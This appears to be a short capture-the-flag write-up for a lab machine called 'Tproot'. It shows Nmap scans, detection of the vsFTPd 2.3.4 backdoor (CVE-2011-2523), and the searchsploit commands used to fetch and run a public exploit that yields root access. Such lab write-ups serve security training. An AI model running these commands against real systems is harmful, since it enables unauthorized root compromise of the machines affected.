


# Tproot

## Port Enumeration

We begin our discovery phase using the Nmap tool. Our scan reveals the following open ports:
```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

A more exhaustive scan of port 21:

```ruby
nmap -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 172.17.0.2
```

We find that it is vulnerable to `vsFTPd version 2.3.4 backdoor`

```ruby

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  BID:48539
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root) groups=0(root)
|  
```

## Intrusion

We search for the exploit in `searchsploit` with the following command:

```ruby
searchsploit vsFTPd
```



The most interesting exploit is the backdoor Command Execution without being from Metasploit. We download it as follows:

```ruby
searchsploit -m unix/remote/49757.py
```

And we execute it:

```ruby
python3 49757.py 172.17.0.2
```



We can see how we access with root user.


